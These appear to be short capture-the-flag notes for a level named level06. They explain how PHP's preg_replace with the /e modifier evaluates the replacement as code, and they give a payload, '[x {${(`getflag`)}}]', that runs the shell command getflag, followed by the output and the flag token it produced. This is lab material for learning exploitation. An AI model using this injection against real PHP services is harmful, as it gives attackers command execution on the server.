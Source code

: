 -There is a php script with preg_replace
-When we userpreg_replace with /e, the replacement string is a PHP expression. So when you use a backreference in the
-eplacement expression, you need to put the backreference inside quotes, or otherwise it would be interpreted as PHP code.
-so we can exploit this
-echo "This is the value of the var named $name: {${$name}}";
-so for getflag => {${`getflag`}}
- change it to [x {${(`getflag`)}}] so the preg_replace with /e works 
-we put it in a file in tmp and give to the binary in the first arg the path to the file we created
-We got => PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
in /home/user/level06/level06.php(4) : regexp code on line 1
-the flag is => wiok45aaoguiboiki2tuin6ub
-https://www.php.net/manual/fr/function.preg-replace.php => /e modifier, name
